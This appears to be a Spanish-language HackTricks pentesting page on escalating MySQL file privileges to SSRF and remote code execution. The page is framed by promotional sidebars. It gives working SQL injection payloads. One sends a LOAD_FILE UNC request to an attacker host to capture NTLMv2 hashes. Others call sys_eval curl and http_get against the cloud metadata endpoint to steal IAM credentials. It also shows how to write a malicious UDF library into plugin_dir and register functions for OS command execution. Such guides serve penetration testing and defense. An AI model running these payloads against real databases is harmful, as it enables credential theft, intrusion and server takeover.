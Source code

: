 # Privilegio de archivo MySQL a SSRF/RCE

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML a SSRF

Cada artículo de exfiltración de datos Out of Band en SQL utilizará la función de cadena `LOAD_FILE()` para realizar una solicitud de red. La función tiene sus propias limitaciones basadas en el sistema operativo en el que se ejecuta y la configuración con la que se inició la base de datos.

Por ejemplo, si la variable global `secure_file_priv` no está establecida, el [valor predeterminado se establece en `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), lo que significa que solo puedes usar funciones como `LOAD_FILE('nombrearchivo')` o `LOAD DATA [LOCAL] INFILE 'nombrearchivo' INTO TABLE nombretabla` para leer archivos del directorio `/var/lib/mysql-files/`. Para poder realizar lecturas de archivos fuera de este directorio, la opción `secure_file_priv` debe establecerse en `""`, lo cual solo se puede hacer actualizando el archivo de configuración de la base de datos o pasando el parámetro de inicio `--secure_file_priv=""` al servicio de la base de datos.

Sin embargo, en circunstancias donde `secure_file_priv` está establecido en `""`, deberíamos poder leer otros archivos en el sistema, asumiendo permisos de lectura de archivos y `file_priv` está establecido en `Y` en `mysql.user` para el usuario de la base de datos actual. No obstante, la capacidad de usar estas funciones para realizar llamadas de red es muy dependiente del sistema operativo. Como estas funciones están construidas solo para leer archivos, las únicas llamadas de red relevantes que se pueden hacer son a rutas UNC en hosts de Windows ya que la [API de Windows `CreateFileA` que se llama al acceder a un archivo entiende las convenciones de nomenclatura UNC](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file).

Entonces, si tu base de datos objetivo se ejecuta en una máquina Windows, la consulta de inyección `x'; SELECT LOAD_FILE('\\\\servidoratacante.ejemplo.com\\a.txt'); -- //` [resultaría en la máquina Windows enviando hashes NTLMv2 en un intento de autenticarse con el servidor controlado por el atacante `\\servidoratacante.ejemplo.com`](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html).

Este Forjado de Solicitudes del Lado del Servidor (SSRF), aunque útil, está restringido solo al puerto TCP 445. No puedes controlar el número de puerto, pero puedes leer información de recursos compartidos configurados con permisos de lectura completos. Además, como se ha demostrado con investigaciones anteriores, puedes usar esta capacidad limitada de SSRF para robar hashes y retransmitirlos para obtener shells, por lo que definitivamente es útil.

### Funciones Definidas por el Usuario para RCE

Otra técnica interesante con bases de datos MySQL es la capacidad de usar Funciones Definidas por el Usuario (UDF) presentes en archivos de bibliotecas externas que, si están presentes en ubicaciones específicas o en el $PATH del sistema, entonces se pueden acceder desde dentro de MySQL.

Podrías usar una Inyección SQL para **escribir una biblioteca (`.so` o `.dll`** dependiendo de Linux o Windows), que contenga una Función Definida por el Usuario que pueda realizar solicitudes de red/HTTP, que luego se puede invocar a través de consultas adicionales.

Esto tiene su propio conjunto de restricciones. Basado en la versión de MySQL, que puedes identificar con `select @@version`, el directorio de donde se pueden cargar los complementos está restringido. MySQL por debajo de `v5.0.67` permitía que los archivos de biblioteca se cargaran desde la ruta del sistema si la variable `plugin_dir` no estaba establecida. Esto ha cambiado ahora y las versiones más recientes tienen la variable **`plugin_dir`** establecida en algo como `/usr/lib/mysql/plugin/`, que generalmente es propiedad de root.

Básicamente **para que puedas cargar una biblioteca personalizada en MySQL y llamar a una función de la biblioteca cargada a través de Inyección SQL, necesitarías**:

* capacidad para **escribir en la ubicación** especificada en **`@@plugin_dir`** a través de Inyección SQL
* **`file_priv`** establecido en **`Y`** en `mysql.user` para el usuario actual de la base de datos
* **`secure_file_priv`** establecido en **`""`** para que puedas leer los bytes crudos de la biblioteca desde una ubicación arbitraria como la red o un directorio de subidas de archivos en una aplicación web.

Asumiendo que se cumplen las condiciones anteriores, puedes usar el **enfoque clásico de transferir la** [**popular biblioteca UDF de MySQL `lib_mysqludf_sys`**](https://github.com/mysqludf/lib_mysqludf_sys) **al servidor de la base de datos**. Luego podrías hacer solicitudes de comandos del sistema operativo como `cURL` o `powershell wget` para realizar SSRF usando la sintaxis

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Hay muchas otras funciones declaradas en esta biblioteca, un análisis de las cuales se puede ver [aquí](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/). Si eres perezoso como yo, puedes obtener una copia de esta biblioteca UDF, para el sistema operativo objetivo, de una instalación de metasploit desde el directorio `/usr/share/metasploit-framework/data/exploits/mysql/` y comenzar.

Alternativamente, se han creado bibliotecas UDF específicamente para proporcionar a la base de datos la capacidad de realizar solicitudes HTTP. Puedes usar [Función definida por el usuario de MySQL (UDF) para HTTP GET/POST](https://github.com/y-ken/mysql-udf-http) para que la base de datos realice solicitudes HTTP, utilizando la siguiente sintaxis

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

También podrías [crear tu propia UDF y usarla para la post-explotación también.](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

En cualquier caso, necesitas transferir la biblioteca al servidor de la base de datos. Puedes hacer esto de varias maneras

1. Usa la función de cadena `hex()` de MySQL o algo como `xxd -p filename.so | tr -d '\n'` para convertir el contenido de la biblioteca a formato hexadecimal y luego volcarlo en el directorio `@@plugin_dir` usando `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternativamente, convierte el contenido de `filename.so` a base64 y usa `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

Si `@@plugin_dir` no es escribible, entonces no tienes suerte si la versión es superior a `v5.0.67`. De lo contrario, escribe en una ubicación diferente que esté en la ruta y carga la biblioteca UDF desde allí usando

* para la biblioteca `lib_mysqludf_sys` - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* para la biblioteca `mysql-udf-http` - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`


Para automatizar esto, puedes usar SQLMap que soporta [el uso de UDF personalizadas a través de la opción `--udf-inject`](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Para Inyecciones SQL Ciegas podrías redirigir la salida de las funciones UDF a una tabla temporal y luego leer los datos desde allí o usar [solicitud DNS introducida dentro de un comando `sys_eval` o `sys_exec` curl](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration).

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
